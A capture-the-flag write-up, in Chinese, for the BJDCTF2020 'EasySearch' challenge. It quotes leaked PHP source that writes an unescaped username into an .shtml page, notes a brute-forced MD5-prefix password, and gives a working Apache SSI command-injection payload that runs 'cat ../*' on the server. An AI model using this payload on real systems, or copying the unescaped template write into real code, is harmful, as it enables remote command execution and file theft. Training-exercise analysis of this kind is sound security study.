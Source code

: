 # \[BJDCTF2020]EasySearch

## \[BJDCTF2020]EasySearch

## 考点

* Apache SSI 远程命令执行漏洞

## wp

扫描存在index.php.swp文件，给了一部分代码

```php
<?php
  ob_start();
  function get_hash(){
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
    $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
    $content = uniqid().$random;
    return sha1($content); 
  }
    header("Content-Type: text/html;charset=utf-8");
  ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
      ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
      echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
  ***
    }
  ***
?>
```

password的md5值前6位要是6d0bc1，脚本爆破出来是2020666，在返回头给了文件地址

![](<../.gitbook/assets/image (2).png>)

shtml存在一个Apache SSI 远程命令执行漏洞，在登录界面使用如下payload

```
username=<!--#exec cmd="cat ../*" -->&password=2020666
```

![](<../.gitbook/assets/image (13) (1).png>)

再返回返回的`Url_is_here`就可以了

![](<../.gitbook/assets/image (7).png>)

## 小结

1. 查查Apache SSI 远程命令执行漏洞
